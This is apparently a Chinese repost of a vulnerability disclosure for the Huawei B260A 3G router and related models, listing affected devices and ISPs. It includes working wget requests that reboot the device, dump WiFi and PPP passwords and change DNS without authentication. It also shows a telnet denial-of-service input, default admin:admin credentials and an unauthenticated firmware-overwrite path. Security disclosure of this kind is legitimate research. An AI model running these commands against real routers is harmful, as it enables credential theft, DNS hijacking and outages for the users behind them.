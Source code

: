 > 原文链接: https://www.anquanke.com//post/id/82666 


# 华为3g路由器的综合性学习：xss,csrf,ddos,非认证的固件更新，远程代码执行


                                阅读量   
                                **106875**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t012df8b1fe93c1b543.png)](https://p5.ssl.qhimg.com/t012df8b1fe93c1b543.png)

**漏洞描述:<br>**

Huawei B260A 3G调制解调器因为有缺陷的安全设计引发一些安全漏洞,该设备在许多国家被广泛使用(比如沃达丰)

下面的测试固件版本是:846.11.15.08.115 (测试时的最新版)

该固件似乎也被用于华为的其他14种设备里([http://192.168.1.1/js/u_version.js),因此这些设备也有潜在的安全风险](http://192.168.1.1/js/u_version.js),%E5%9B%A0%E6%AD%A4%E8%BF%99%E4%BA%9B%E8%AE%BE%E5%A4%87%E4%B9%9F%E6%9C%89%E6%BD%9C%E5%9C%A8%E7%9A%84%E5%AE%89%E5%85%A8%E9%A3%8E%E9%99%A9)



```
E960, WLA1GCPU
E968, WLA1GCYU
B970, WLA1GAPU
B932, WLB1TIPU
B933, WLB1TIPU
B220, WLA1GCYU
B260, WLA1GCYU
B270, WLA1GCYU
B972, WLA1GCYU
B200-20, WLB3TILU
B200-30, WLB3TILU
B200-40, WLB3TILU
B200-50, WLB3TILU
??, WLA1GCPU
```



**漏洞细节:COOKIES**

Huawei B260A 在COOKIES里使用BASE64编码存储管理员的密码信息,这允许攻击者通过嗅探攻击来获取到cookies信息,然后轻易解码。

COOKIES类似:



```
Cookie: Basic=admin:base64(password):0
```



**漏洞细节:认证绕过**

通过下面的请求,可以不需要验证就远程重启设备



```
wget -qO- --post-data='action=Reboot&amp;page=resetrouter.asp' http://192.168.1.1/en/apply.cgi
```

这个请求可以实现



```
wget -qO- --post-data='action=Apply&amp;page=lancfg.asp' 'http://192.168.1.1/en/apply.cgi'
```

不需要验证获取WIKI密码



```
wget -qO- 'http://192.168.1.1/js/wlan_cfg.js'|less
```

不需要验证获取PPP拨号密码



```
wget -qO- 'http://192.168.1.1/js/connection.js'|grep -i 'var profile'
var profile = [["Orange TN","*99#","FIXME","FIXME","0","flyboxgp","1","","0",],[]];
```

不需要验证获取密码信息(wifi密码,ppp密码)



```
wget -qO- http://192.168.1.1/js/wizard.js
var current_profile_list = ["Orange TN","*99#","","","0","flyboxgp","1","",];
var profile = [["Orange TN","*99#","","","0","flyboxgp","1","",],[]];
var nv_wl_wpa_psk = "E56479874EB39DB3BC65D8374B";              /**/
var nv_wl_key1 = "";                    /**/
[...]
```

<br>

**漏洞细节:CSRF**

不需要验证修改远程的DNS,允许攻击者劫持DNS流量,影响客户端

```
wget -qO- --post-data='lan_lease=86400&amp;dns_settings=static&amp;primary_dns=1.1.3.1&amp;secondary_dns=3.3.3.3&amp;lan_proto=dhcp&amp;dhcp_start=192.168.1.100&amp;dhcp_end=192.168.1.200&amp;lan_ipaddr=192.168.1.1&amp;lan_gateway=192.168.1.1&amp;lan_netmask=255.255.255.0&amp;action=Apply&amp;page=lancfg.asp' 'http://192.168.1.1/en/apply.cgi'
```

这个请求也可用于CSRF攻击上

<br>

**漏洞细节:远程DOS**

不需要验证远程DOS其HTTP服务



```
root@linux:~# telnet 192.168.1.1 80
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.
x  
Connection closed by foreign host.
root@linux:~# telnet 192.168.1.1 80
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused
root@linux:~
```

<br>

**漏洞细节:不需要验证上传固件**

1.使用官方工具TELNET连接(默认账号admin:admin)



```
HGW login: ......admin
Password: admin
No directory, logging in with HOME=/
BusyBox v0.60.0 (2013.02.20-03:27+0000) Built-in shell (msh)
Enter 'help' for a list of built-in commands.
# nvram get cfe_version
# nvram get app_version
#
```



2.在路由器,调试程序从TCP 1280端口接收数据,存储数据在/tmp目录,可以使用write覆写路由器的MTD

不需要逆向,我们在路由器里使用top命令,查看write进程



```
1266 0         S    diagd
1270 0         S    telnetd
1822 0         R    write /tmp/uploadh1wNSR FWT  &lt;-- 覆写MTD
```

write是基本的命令用来覆写mtdblock  (write /path/to/file device)

3.之后更新固件,你能使用admin/admin登录http控制面板和telnet控制台,允许你获取root shell

这是默认行为,FMC工具的官方文档有提及:



```
With this software, you can upgrade the Huawei FMC products in a very simple way.
This software supports the upgrade of five sub-modules, including BOOT of the router module,
APP of the router module, customized files of the router module, the wireless module,
and the dashboard software.
```

华为不对该设备提供直接的固件,你能从你的ISP下载

以下ISP使用这些路由器(来自[http://www.dlgsm.com/index.php?dir=/FLASH-FILES/HUAWEI/B_Series/B260a](http://www.dlgsm.com/index.php?dir=/FLASH-FILES/HUAWEI/B_Series/B260a))



```
Argentina Claro
Argentina Movistar
Armenia Orange
Austria H3G
Austria Mobilkom
Brazil VIVO
Brazil CTBC
Jamaica C&amp;W JAMAICA
CTBC Brazil
Chile Entel
Croatia Vipnet
Danmark Hi3G
Ecuador CNT
Estonia Elisa Eesti
Germany E-Plus
Guatemala Tigo
JAMAICA C&amp;W
Jamaica Digicel
Kenya Orange
Mali Orange
Mexico Telcel
Niger Orange
Portugal Optimus
Portugal VDF
Roumania Vodafone
Slovak Telekom
Slovak Orange
Sweden HI3G
Sweden TELE2
Sweden Tele2
Tele2 Germany
Telia Sweden
Tunisia Orange
```



根据我的研究,能够使用一个不要验证的固件覆盖默认的固件

其他有可能有该漏洞影响的设备:



```
E960, WLA1GCPU
E968, WLA1GCYU
B970, WLA1GAPU
B932, WLB1TIPU
B933, WLB1TIPU
B220, WLA1GCYU
B260, WLA1GCYU
B270, WLA1GCYU
B972, WLA1GCYU
B200-20, WLB3TILU
B200-30, WLB3TILU
B200-40, WLB3TILU
B200-50, WLB3TILU
??, WLA1GCPU
```
